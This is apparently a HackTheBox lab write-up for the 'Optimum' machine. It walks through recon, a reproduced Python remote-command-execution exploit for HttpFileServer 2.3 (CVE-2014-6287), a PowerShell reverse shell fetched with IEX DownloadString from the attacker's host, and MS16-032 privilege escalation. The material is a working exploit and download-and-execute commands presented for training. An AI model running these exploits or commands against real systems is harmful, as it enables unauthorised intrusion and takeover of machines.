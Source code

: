 ```yaml
---
layout: default
title: Optimum
parent: HackTheBox
nav_order: 5
---
```

# Navigation Structure
{: .no_toc }

## Table of contents
{: .no_toc .text-delta }

![](pictures/logo-optimum.png)

- Summary
- Recon
- Exploitation
- Intrusion
- Privilege Escalation
{:toc}

## [](#header-2)Summary:

- Enumerate Vulnerable version of file server
- Exploit vulnerability to pop powershell...shell
- Escalate privileges with MS01632


## [](#header-2)Recon:

Before my nmap scan was even done I found something interesting in the home page.

![](pictures/site-optimum.png)

I am able to see that the service running on port 80 is a server "HttpFileServer 2.3".

I do a searchsploit of HttpFileServer 2.3 and find exactly what I was looking for.


![](pictures/ssploit-optimum.png)

```python
# Exploit Title: Rejetto HttpFileServer 2.3.x - Remote Command Execution (3)
# Google Dork: intext:"httpfileserver 2.3"
# Date: 28-11-2020
# Remote: Yes
# Exploit Author: Óscar Andreu
# Vendor Homepage: http://rejetto.com/
# Software Link: http://sourceforge.net/projects/hfs/
# Version: 2.3.x
# Tested on: Windows Server 2008 , Windows 8, Windows 7
# CVE : CVE-2014-6287

#!/usr/bin/python3

# Usage :  python3 Exploit.py <RHOST> <Target RPORT> <Command>
# Example: python3 HttpFileServer_2.3.x_rce.py 10.10.10.8 80 "c:\windows\SysNative\WindowsPowershell\v1.0\powershell.exe IEX (New-Object Net.WebClient).DownloadString('http://10.10.14.4/shells/mini-reverse.ps1')"

import urllib3
import sys
import urllib.parse

try:
        http = urllib3.PoolManager()
        url = f'http://{sys.argv[1]}:{sys.argv[2]}/?search=%00{{.+exec|{urllib.parse.quote(sys.argv[3])}.}}'
        print(url)
        response = http.request('GET', url)

except Exception as ex:
        print("Usage: python3 HttpFileServer_2.3.x_rce.py RHOST RPORT command")
        print(ex)
```


## [](#header-2)Exploitation:

In order for the exploit to work you need to give the target server a command to run. 

I chose Invoke-PowershellTCP.ps1 and I had to edit it in order to allow the script to run a reverse shell

![](pictures/edit-optimum.png)

Then after running the exploit and setting up our nc listener/ local python server(I renamed Invoke reverse shell to mini-reverse.ps1 on accident)

![](pictures/cm-optimum.png)

Annnnd we get some access
![](pictures/user-optimum.png)



## [](#header-2)Privilege Escalation:

Going through the motions with privesc for a Windows box, I start out with a simple systeminfo command to see what I'm working with.

![](pictures/systeminfo-optimum.png)


From here in order to automate the privesc search process I downloaded from my local python server, Sherlock written by RastaMouse
```powershell
PS C:\Users\kostas\Desktop> IEX (New-Object Net.WebClient).DownloadString('http://10.10.14.28/Sherlock/Sherlock.ps1')
```

Runnning Sherlock the system appears vulnerable to the following:

```powershell
Title      : Secondary Logon Handle
MSBulletin : MS16-032
CVEID      : 2016-0099
Link       : https://www.exploit-db.com/exploits/39719/
VulnStatus : Appears Vulnerable
```
I used powershell empire's MS01632 exploit to automate this process and was able to get root

![](pictures/root-optimum.png)



This lab was a good walk through to learn certain privilege escalation techniques/methodologies within Windows.